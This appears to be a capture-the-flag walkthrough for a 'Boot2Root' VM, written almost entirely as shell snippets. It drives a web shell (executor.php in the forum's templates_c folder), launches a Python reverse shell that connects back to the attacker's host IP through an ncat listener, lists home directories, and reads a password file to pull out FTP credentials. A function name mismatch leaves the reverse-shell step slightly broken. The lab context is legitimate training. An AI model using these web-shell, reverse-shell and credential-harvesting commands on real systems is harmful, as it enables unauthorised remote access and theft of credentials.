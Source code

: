 ## Find our HOST machine IP
```shell
HOST_IP=`ifconfig en0 | grep inet | awk '{print $2}'`
echo $HOST_IP
```

## Find our VM IP
```shell
IP=`prlctl list -f | grep "Boot2Root" | awk '{print $3}'`
if [ -z "$IP" ]; then 
  IP=0.0.0.0
fi
echo $IP
```

## Inspect by reverse shell

Declare executor
```shell
shell_executor () {
  cmd=`echo "$1" | sed 's/ /%20/g'`
  curl -s -k https://$IP/forum/templates_c/executor.php?execute=$cmd
}
reverse_shell () {
  screen -ls | grep '(Detached)' | awk '{print $1}' | xargs -I % -t screen -X -S % quit
  screen -dmS ncat bash -c 'sleep 1; ncat -nvklp 1234'
  reverse_shell_cmd="python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$HOST_IP\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn(\"/bin/bash\");'"
  sleep 3
  executor $reverse_shell_cmd &
  screen -r ncat && kill %2
}
```

### Run reverse shell
```shell
reverse_shell
```

## Find the answers

### Look at home dir files
```shell
shell_executor "ls -la /home/"
```

### First clue
```shell
credential=`shell_executor 'cat /home/LOOKATME/password'`
ftp_login=`echo $credential | awk '{print $2}' | cut -d ":" -f 1`
echo $ftp_login
ftp_password=`echo $credential | awk '{print $2}' | cut -d ":" -f 2`
echo $ftp_password
```
